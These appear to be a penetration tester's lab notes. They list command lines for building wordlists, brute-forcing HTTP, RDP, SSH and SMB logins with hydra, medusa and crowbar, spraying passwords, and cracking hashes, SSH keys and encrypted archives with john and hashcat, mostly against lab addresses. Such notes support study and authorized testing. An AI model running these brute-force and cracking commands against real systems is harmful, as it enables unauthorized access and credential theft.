 ## Wordlists:
    kali: /usr/share/wordlists
    https://github.com/danielmiessler/SecLists
    Custom Wordlists:
        Website Scraping Example:
          cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
          edit /etc/john/john.conf, adding rule that mutates our wordlist by adding 2 numbers at the end of each word:   $[0-9]$[0-9]
          john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
        Pattern Example:
          crunch 8 8 -t ,@@^^%%%
          only certain characters:  crunch 4 6 0123456789ABCDEF -o crunch.txt

## Login Brute-Forcing:
        HTTP htaccess attack with Medusa:
            medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
        RDP attack with Crowbar:
            crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
        SSH attack with THC-Hydra:
             hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
             With a list:   hydra -L userlist.txt -P passwordlist.txt ssh://10.10.10.184
        HTTP POST attack with THC-Hydra:
            hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -f
            hydra 10.10.10.43 https-form-post "/db/index.php:remember=yes&login=Log+In&proc_login=true&password=^PASS^:Incorrect password" -s 443 -P /usr/share/wordlists/rockyou.txt -f
            no username: -l ''
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -f
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt https-post-form "/index.php:__csrf_magic=sid%3Ad38e7d40800f071201501427269c237c40fa4482%2C1614984752&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect" -f
            List:  hydra 10.10.10.191 -l fergus -P passwordlist.txt http-post-form "/admin/login:username=^USER^&password=^PASS^&save=:Username or password incorrect" -f
            CSRF token means probably won't work
        HTTP Authentication:
            hydra 10.10.10.10 -l username -P /usr/share/wordlists/rockyou.txt http-get -s 34226
     
	If other options fail but you have usernames, spray for passwords:
		cewl http://example.com/index.htm --with-numbers > wordlist
		hydra -L users -P wordlist 10.10.10.193 smb
		then try to login w/ creds:  smbclient -U username -L \\\\10.10.10.193
			If Password Must Change error: change it with:  smbpasswd -r 10.10.10.193 username
				If it reverts/resets quickly, use one-liner to run commands:  if echo "$pass" | smbclient -L //10.10.10.193 -U username 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo '<Hostname>'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s username; echo "password reset to $pass"; fi; [command here]
		Then enumerate smb and rpc using creds
     
     
## Password Cracking:  
	  hash-identifier
	  $5$ sha256, 
	  gunzip /usr/share/wordlists/rockyou.txt
	  Online:  https://crackstation.net/
	  John the Ripper:
		    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    With rules:   john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    View results:  john hash.txt --show
	  Hashcat (GPU-based):
	      Modes: 3200 bcrypt, 7400 sha256,
	      hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
	      hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
	      .\hashcat.exe -m 3200 -a 3 hashes.txt 'SKY-TEST-?d?d?d?d' --- known format, brute force mode
	      Rule Example:
		  password is some variation of PleaseSubscribe!
		  echo -n "PleaseSubscribe\!" > rulefile.txt
		  hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/best64.rule /root/hash.txt rulefile.txt
	      BEST RULE FILE: /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
		      hashcat64.exe --force -m300 --status -w3 -o found.txt --remove --potfile-disable -r rules\OneRuleToRuleThemAll.rule hash.txt rockyou.txt
	  Other File Formats:
	    Zip: fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup
	      Or: zip2john ...
	    SSH Key: /usr/share/john/ssh2john.py id_rsa > id_rsa.john ;  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
			  make copy without pw:  openssl rsa -in id_rsa -out id_rsa_nopass
	    keepass2john (.kdbx file)
	    rar2john
	    tar.gz.enc file: netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/out.tar.gz ;  tar -xf out.tar.gz  
	    Openssl base64 encoded file:  cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;  

